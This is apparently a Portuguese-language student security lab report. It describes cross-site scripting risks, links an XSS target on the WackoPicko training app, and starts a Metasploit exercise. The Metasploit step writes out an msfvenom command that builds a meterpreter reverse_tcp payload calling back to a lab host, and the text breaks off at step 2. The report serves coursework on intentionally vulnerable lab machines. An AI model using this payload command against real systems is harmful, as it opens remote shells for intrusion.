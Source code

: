 Quando um invasor faz com que o navegador de um usuário execute seu código, o código será executado no contexto (ou zona) de segurança do site de hospedagem. Com esse nível de privilégio, o código tem a capacidade de ler, modificar e transmitir quaisquer dados confidenciais acessíveis pelo navegador.

Um usuário com script entre sites pode ter sua conta invadida (roubo de cookie), seu navegador redirecionado para outro local ou possivelmente exibir conteúdo fraudulento entregue pelo site que está visitando. Os ataques de script entre sites comprometem essencialmente a relação de confiança entre um usuário e o site.

- Link para o ataque: http://192.168.56.103/WackoPicko/guestbook.php

**f. Envie no moodle, além das respostas desta tarefa, o arquivo do relatório do experimento (salve
em formato html).**

OK, salvo arquivo: [zaproxy.html](zaproxy.html)




---

## PARTE 3.Metasploit

### Questão 7. 
**(APRESENTAÇÃO) Copie e cole o screenshot da sua tela ao realizar cada passo dos
experimentos apresentados a seguir (Passo 1, Passo 2, etc).
Depois, explique o experimento:**

Passo 1.
```bash
msfconsole

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f elf > shell.elf
```
<img src="images/q_7.1.png" align="center" height=auto width=100%>

Passo 2.
<img src="images/q_7.2.png" align="center" height=auto width=100%>
